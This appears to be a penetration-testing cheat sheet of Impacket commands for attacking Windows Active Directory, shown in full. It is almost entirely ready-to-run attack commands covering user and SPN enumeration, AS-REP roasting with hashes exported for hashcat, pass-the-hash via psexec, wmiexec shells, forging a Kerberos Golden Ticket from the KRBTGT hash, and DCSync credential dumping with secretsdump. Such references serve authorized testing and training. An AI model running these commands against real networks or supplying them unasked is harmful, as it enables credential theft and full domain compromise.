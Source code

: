 # Impacket

## Enumeration

{% hint style="info" %}
**-format hashcat to export a formated hash**
{% endhint %}

### **Get AD users**

```csharp
python3 GetADUsers.py -all -k -no-pass -dc-ip <DC_IP> Domain.local/Administrator
```

### Get SPN users

```csharp
GetUserSPNs.py -k -no-pass -dc-ip <DC_IP> Domain.local/Administrator
```

### Account witch doesn't require Kerberos Authentication

```csharp
./GetNPUsers.py -dc-ip 10.110.0.222 -request 'crook.badcorp.local/' -format hashcat
```

## File server

```csharp
sudo ./smbserver.py Test /tmp -smb2support -user polo -password test123 
```

## Psexec

```csharp
./psexec.py -hashes <ntlm hash:ntlm hash> Administrator@<HOSTNAME>

# or without password (kerberos)

./psexec.py CROOK.BADCORP.LOCAL/Administrator@DC103 -k -no-pass
```

## Wmiexec

{% hint style="warning" %}
As opposite to psexec which provides NT LOCAL/System shell, wmiexec allows to keep the requested user context, i.e. Domain\Administrator will get an Domain\Administrator shell.
{% endhint %}

```csharp
./wmiexec.py CROOK.BADCORP.LOCAL/Administrator@DC103 -k -no-pass
```

## Kerberos Golden Ticket

### Request a TGT

```csharp
./ticketer.py -nthash <KRBTGT NTLM HASH> -domain-sid <DOMAIN SID> -domain <MYDOMAIN.LOCAL> Administrator
```

### Import the TGT

```csharp
export KRB5CCNAME=krb5cc_91801115_mine
```

### Connect using the ticket

```csharp
./psexec.py CROOK.BADCORP.LOCAL/Administrator@10.110.0.222 -k -no-pass
```

### DSYNC

```csharp
./secretsdump.py crook.badcorp.local/User:Password@10.110.0.222
```

## MSSQLclient.py

```csharp
./mssqlclient.py user@server -windows-auth
```

